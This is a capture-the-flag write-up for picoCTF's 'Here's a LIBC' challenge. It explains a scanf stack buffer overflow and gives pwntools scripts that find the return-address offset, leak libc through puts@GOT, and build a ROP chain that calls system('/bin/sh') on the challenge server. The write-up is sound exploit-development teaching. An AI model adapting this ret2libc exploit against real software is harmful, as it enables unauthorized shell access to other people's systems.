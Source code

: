 ## Writeup - Here's a LIBC

Vulnerability:
First, open up the vuln binary with Ghidra to see the decomplied C code. If you look at the `main` function there is a `while`-loop that calls a function `do_stuff`. Inside this function there is a variable of size 112 but it's contents are read through `scanf`. This is a buffer-overflow. The idea now is to write a more than 112 bytes as input and then some code so that we can run that code. That code will essentially pop a shell with `/bin/sh`.


Exploit:
We first try to find how many characters to fill before the malicious code.

Script to find offset:
```
from pwn import *

io = process("./vuln")
print(io.recvregex(b'!')) # read until we get the prompt
io.sendline(cyclic(500))
io.wait()
core = io.corefile
rsp = core.rsp
info("rsp = %#x", rsp)
pattern = core.read(rsp, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
```

Full exploit:
```
import sys

from pwn import *

libcelf = {
  "local": "/lib/x86_64-linux-gnu/libc.so.6",
  "remote": "./libc.so.6"
}

mode = sys.argv[1]
print(f"mode: {mode}")
if mode != "local" and mode != "remote": print("exitting.."); sys.exit()

vuln_elf = ELF("./vuln")
r = vuln_elf.process() if mode == "local" else remote("mercury.picoctf.net", sys.argv[2])

libc = ELF(libcelf[mode])

pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

puts_plt = vuln_elf.plt['puts'] #grab plt address of puts function
main_plt = vuln_elf.symbols['main'] #grab address of main
puts_got = vuln_elf.got['puts']

junk = b"A" * 136

log.info(f"main starts @ {hex(main_plt)}")
log.info(f"puts plt @ {hex(puts_plt)}")
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"puts got @ {hex(puts_got)}")

rop1 = b""
rop1 += junk
rop1 += p64(pop_rdi) #fill rip with pop rdi; ret address
rop1 += p64(puts_got) #put address of puts global offset table in the rdi register
rop1 += p64(puts_plt) #call to puts in the procedural link table, looks to rdi for argument (puts_got)
rop1 += p64(main_plt) #return to main of program after tricking it into leaking puts address

print(r.clean()) #clean buffer and print all received bytes
r.sendline(rop1)

print(r.recvline())

received_line = r.recvline().strip()
leak = u64(received_line.ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")

libc.address = leak - libc.symbols['puts']
log.info(f"libc base @ {hex(libc.address)}")
log.info("now we have libc base, we can find system and pwn that sh*t")

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.symbols['system']

log.info(f"/bin/sh located @ {hex(bin_sh)}")
log.info(f"system function located @ {hex(system)}")

rop2 = b""
rop2 += junk
rop2 += p64(ret)
rop2 += p64(pop_rdi) #Once again, pop rdi to place argument in
rop2 += p64(bin_sh) #put /bin/sh into rdi to be passed to system
rop2 += p64(system) #call system with /bin/sh argument from rdi

r.clean()
r.sendline(rop2)
r.interactive()
```

